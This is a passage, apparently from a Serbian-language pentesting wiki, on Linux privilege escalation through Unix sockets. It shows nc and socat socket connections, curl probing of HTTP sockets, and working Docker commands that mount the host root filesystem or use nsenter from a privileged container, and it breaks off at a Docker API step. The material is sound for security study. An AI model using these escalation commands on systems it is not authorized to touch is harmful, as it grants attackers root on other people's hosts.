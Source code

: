 Važno je napomenuti da je korišćenje sirove veze ilegalno bez odobrenja vlasnika sistema. Ova tehnika se često koristi u etičkom hakovanju ili pentestiranju, gde se koristi sa ciljem identifikovanja slabosti u sistemu i preporučivanja odgovarajućih sigurnosnih mera.

```bash
#apt-get install netcat-openbsd
nc -U /tmp/socket  #Connect to UNIX-domain stream socket
nc -uU /tmp/socket #Connect to UNIX-domain datagram socket

#apt-get install socat
socat - UNIX-CLIENT:/dev/socket #connect to UNIX-domain socket, irrespective of its type
```

**Primer eksploatacije:**

{% content-ref url="socket-command-injection.md" %}
[socket-command-injection.md](socket-command-injection.md)
{% endcontent-ref %}

### HTTP soketi

Imajte na umu da mogu postojati neki **soketi koji slušaju HTTP** zahteve (_ne govorim o .socket fajlovima već o fajlovima koji deluju kao unix soketi_). Možete to proveriti sa:

```bash
curl --max-time 2 --unix-socket /pat/to/socket/files http:/index
```

Ako socket **odgovara sa HTTP** zahtevom, onda možete **komunicirati** sa njim i možda **iskoristiti neku ranjivost**.

### Writable Docker Socket

Docker socket, često se nalazi na putanji `/var/run/docker.sock`, je kritičan fajl koji treba da bude obezbeđen. Podrazumevano, on je dostupan za pisanje od strane korisnika `root` i članova grupe `docker`. Posedovanje pristupa pisanju na ovom socket-u može dovesti do eskalacije privilegija. Evo kako to može biti urađeno i alternativne metode ako Docker CLI nije dostupan.

#### **Eskalacija privilegija pomoću Docker CLI-a**

Ako imate pristup pisanju na Docker socket-u, možete eskalirati privilegije koristeći sledeće komande:

```bash
docker -H unix:///var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
docker -H unix:///var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

Ove komande vam omogućavaju pokretanje kontejnera sa pristupom nivou root do fajl sistema domaćina.

#### **Korišćenje Docker API-ja direktno**

U slučajevima kada Docker CLI nije dostupan, Docker socket se i dalje može manipulisati korišćenjem Docker API-ja i `curl` komandi.

1. **Lista Docker slika:** Preuzmite listu dostupnih slika.
